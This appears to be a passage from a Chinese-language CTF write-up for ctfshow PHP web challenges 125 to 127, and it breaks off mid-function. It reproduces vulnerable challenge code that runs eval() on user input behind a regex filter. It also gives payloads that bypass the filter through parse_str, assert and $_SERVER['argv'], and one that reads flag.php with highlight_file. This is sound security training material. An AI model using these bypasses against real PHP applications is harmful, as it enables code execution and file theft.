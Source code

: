被过滤了其他方法，

payload

```php
get: a=1+fl0g=flag_give_me
post: CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1])
```

还有：

```php
GET:?1=flag.php POST:CTF_SHOW=&CTF[SHOW.COM=&fun=highlight_file($_GET[1])
```



## web126~argv,assert

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print|g|i|f|c|o|d/i", $c) && strlen($c)<=16){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
```

payload:

```php
GET:?a=1+fl0g=flag_give_me
POST:CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1])

or
                   
GET:?$fl0g=flag_give_me
POST:CTF_SHOW=&CTF[SHOW.COM=&fun=assert($a[0])
```

## web127~fuzz代替_

```php
<?php

error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];


//特殊字符检测
function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
```